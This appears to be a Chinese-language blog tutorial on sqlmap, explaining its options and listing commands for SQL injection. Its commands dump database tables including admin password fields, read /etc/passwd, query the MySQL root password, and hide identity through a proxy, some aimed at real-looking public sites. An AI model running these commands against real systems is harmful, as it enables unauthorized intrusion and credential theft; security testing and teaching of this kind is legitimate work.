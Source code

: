 ```yaml
---
title: Net(4)——sqlmap的使用指南
date: 2020-11-11
author: LM
---
```


## 1.sqlmap中部分参数的备注

### 星号（ * ）

在注入的过程中，有时候会存在伪静态的页面，此时可以使用星号表示可能存在注入的部分

sqlmap可以区分一个 URL 里面的参数来进行注入点测试，但在遇到了一些做了伪静态的网页就无法自动识别了。

```bash
'/admin/1/' 类似于这种，SQLMap 便无法进行注入测试，但它实际上可能是这样的：'/admin.php?id=1'
```

它只是把参数隐藏在了 URL 中，对于这种网页，直接在参数后加上一个星号即可。

```bash
sqlmap -u "www.baidu.com/admin/1*"
```

### –data

使用post方式提交的时候，就需要用到data参数了

### -p

当我们已经事先知道哪一个参数存在注入就可以直接使用-p来指定，从而减少运行时间

### –level

不同的level等级，sqlmap所采用的策略也不近相同，当–level的参数设定为2或者2以上的时候，sqlmap会尝试注入Cookie参数；当–level参数设定为3或者3以上的时候，会尝试对User-Angent，referer进行注入。

### –random-agent

使用该参数，sqlmap会自动的添加useragent参数，如果你知道它要求你用某一种agent，你也应当用user-agent选项自己指定所需的agent

### –technique

这个参数可以指定sqlmap使用的探测技术，默认情况下会测试所有的方式。支持的探测方式如下：

- B: Boolean-based blind SQL injection（布尔型注入）
- E: Error-based SQL injection（报错型注入）
- U: UNION query SQL injection（可联合查询注入）
- S: Stacked queries SQL injection（可多语句查询注入）
- T: Time-based blind SQL injection（基于时间延迟注入）

## 2.常用的指令

```lua
检查注入点             sqlmap -u "http://ooxx.com.tw/star_photo.php?artist_id=11"
列数据库信息            sqlmap -u "http://ooxx.com.tw/star_photo.php?artist_id=11" --dbs
指定库名列出所有表       sqlmap -u "http://ooxx.com.tw/star_photo.php?artist_id=11" -D xxxxx --tables
指定库名表名列出所有字段  sqlmap -u "http://ooxx.com.tw/star_photo.php?artist_id=11" -D xxxxx -T admin --columns
指定库名表名字段dump出指定字段
sqlmap -u "http://ooxx.com.tw/star_photo.php?artist_id=11" -D xxxxx -T admin -C ac,id,password --dump    
                                                                               
有几个参数可能会用到，直接加在最后面
--cookie=COOKIE                            在需要登录的地方，需要登录后的cookie
--proxy="http://127.0.0.1:8087"            使用HTTP代理隐藏自己的身份，比如使用goagent等
--sql-query=QUERY                          执行一个sql语句，不一定支持

命令解释（-v 等级1）
sqlmap -u "注入地址" -v 1 --dbs              // 列举数据库   
sqlmap -u "注入地址" -v 1 --current-db       // 当前数据库  
sqlmap -u "注入地址" -v 1 --users            // 列数据库用户  
sqlmap -u "注入地址" -v 1 --current-user     // 当前用户  
sqlmap -u "注入地址" -v 1 --tables -D "数据库"                          // 列举数据库的表名  
sqlmap -u "注入地址" -v 1 --columns -T "表名" -D "数据库"               // 获取表的列名  
sqlmap -u "注入地址" -v 1 --dump -C "字段,字段" -T "表名" -D "数据库"   //获取表中的数据，包含列   
```

## 3.Sqlmap参数使用实例

```rust
//指定参数注入 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 -p "id" 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 -p "cat,id" 
//指定方法和post的数据 
   sqlmap -u "http://192.168.1.47/page.php" --method "POST" --data "id=1&cat=2" 
//指定cookie,可以注入一些需要登录的地址 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" --cookie "COOKIE_VALUE" 
//通过代理注入 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" --proxy "http://127.0.0.1:8118" 
//指定关键词，也可以不指定。程序会根据返回结果的hash自动判断 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" --string "STRING_ON_TRUE_PAGE" 
//显示指定的文件内容，一般用于php 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" --file-read /etc/passwd 
//执行你自己的sql语句。 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 --sql-query="SELECT password FROM mysql.user WHERE user = 'root' LIMIT 0, 1"     
//union注入 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" --union-check 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 --union-use --banner 
//保存注入过程到一个文件，还可以从文件恢复出注入过程，很方便，一大特色。你可以在注入的时候中断，有时间再继续。 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 -b -o "sqlmap.log" 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 --banner -o "sqlmap.log" --resume
```
